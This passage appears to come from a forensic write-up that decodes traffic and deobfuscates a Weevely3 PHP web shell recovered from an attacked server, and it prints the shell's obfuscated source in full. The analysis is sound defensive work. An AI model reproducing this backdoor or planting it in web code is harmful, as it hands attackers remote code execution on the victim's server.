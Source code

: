 {% highlight console %}
.XJ_Aaf.Yzk+W,so11a12a4a68f2Gqx5ev6t4ATRBAeG5NExNHoRMQo120bb3b9572cI.O5V$bDA2*7A!fm
{% endhighlight %}

If we take a close look at it from a high-level perspective, we may notice some random unidentified bytes at the beginning (`.XJ_Aaf.Yzk+W,so`) followed by what seems to be hexadecimal values (`11a12a4a68f2`) and Base64-encoded content (`Gqx5ev6t4ATRBAeG5NExNHoRMQo`). At the end of this data, we may notice additional hex numbers followed by again random data in a structure as seen below:

![Weevely Data Skeleton](/assets/images/weevely-data.svg)

At this point, the only part that we can make sense of is the Base64-encoded part, but which results in possible encrypted data when decoded:

{% highlight console %}
$ echo -n "Gqx5ev6t4ATRBAeG5NExNHoRMQo" | base64 -d

.¬yzþ.à.Ñ...äÑ14z.1
{% endhighlight %}

Considering that we already got a data skeleton in the bigger picture, we may turn back to the original script to further advance.

# 4. Backtracking

The content of the extracted "<i>artikrh.php</i>" file from the attacked web server is as follows: 

{% highlight php %}
<?php
$h='len(Q$t);$oQ="";QQQfor($i=0;$i<$l;)Q{for($QjQ=0;($j<$c&&$i<$lQ);$';
$P='Q("/$kQh(Q.+)$kf/"QQ,Q@file_gQet_contents("pQhp://inpuQt"),$m)Q==';
$M='1) {Q@ob_stQart(Q);@evQal(@gzuncoQmpressQQ(@x(@base6Q4_deQcode(Q$';
$B='$Qk="b02Q70e74";$kQQh="11a12a4a68f2"Q;Q$kf=QQ"120bb3b957QQ2c";$p=';
$f='"1DGp1QY6lWKI3pJ2P"Q;Qfunction x($tQ,$kQ){$QcQ=strlen($k);$l=sQtr';
$W='Qse64_encode(@x(Q@gzcomQpress(Q$o)Q,$k))Q;print("$pQ$kh$r$Qkf");}';
$y=str_replace('b','','crbebateb_bbfunbction');
$C='m[1])Q,$k)));$o=@Qob_QQget_conQtents();@ob_QeQnd_clean()Q;$Qr=@ba';
$r='j+Q+,$i++Q){$Qo.=$tQ{$i}^$Qk{$j};}}rQeturn $oQ;}ifQ (@pQreg_match';
$I=str_replace('Q','',$B.$f.$h.$r.$P.$M.$C.$W);
$X=$y('',$I);$X();
?>
{% endhighlight %}

Clearly, the PHP is obfuscated, however we can already see suspicious functions such as:
- `ob_stQart` => [ob_start()](https://www.php.net/manual/en/function.ob-start.php)
- `evQal` => [eval()](https://www.php.net/manual/en/function.eval.php)
- `gzuncoQmpress` => [gzuncompress()](https://www.php.net/manual/en/function.gzuncompress.php)
- `base6Q4_deQcode` => [base64_decode()](https://www.php.net/manual/en/function.base64-decode.php)

As a side note, you can google parts of this code in Google which may lead you eventually to Weevely3-related artifacts, so you know what the attacker has used. Do keep in mind that the script is polymorphic, therefore, the function order and variable names will always change randomly during generation. 
